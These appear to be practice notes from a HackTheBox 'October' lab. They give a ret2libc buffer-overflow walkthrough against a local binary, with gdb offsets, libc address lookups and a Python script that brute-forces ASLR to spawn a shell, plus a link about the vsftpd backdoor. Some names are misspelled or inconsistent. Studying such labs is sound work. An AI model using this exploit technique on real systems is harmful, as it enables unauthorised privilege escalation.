 # Practice

## vsftpd backdoor
- https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

## HTB - Octomber

`/usr/local/bin/ovrflw`

`NX/DEP` is enabled.
`ASLR` is enabled.

Passing a pattern to the binary in gdb finds that there is `112 bytes` before the buffer is
overflowed and the `EIP` is overwritten.

- Path and libc address: `ldd /usr/local/bin/overflw | grep libc​`
- System offset: `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
- "bin/sh" address: `strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`

- Payload: ​ JUNK*112 + libcAddress + JUNK*8 + binShAddress

- Brute forces the binary to bypass ASLR. Note it may take hundreds if not several thousand attempts to hit the correct address.

```
import struct, subprocess

libcBase = 0xb75eb000
systemOffset = 0x00040310
binShOffset = 0x00162bac

libcAddress = struct.pack("<I", libcBase+systemOffset)
exitAddress = struct.pack("<I", 0xd34db33f)
binShAddress = struct.pack("<I", libcBase+binShOffset)

payload = "\x90"*112
payload += libcAddress
payload += exitAddress
payload += binShAddress

i = 0
while True:
  i += 1
  if i%10 == 0:
    print "Attempts: " + str(i)
  subprocess.call(["/usr/local/bin/ovrflw", payload])
```
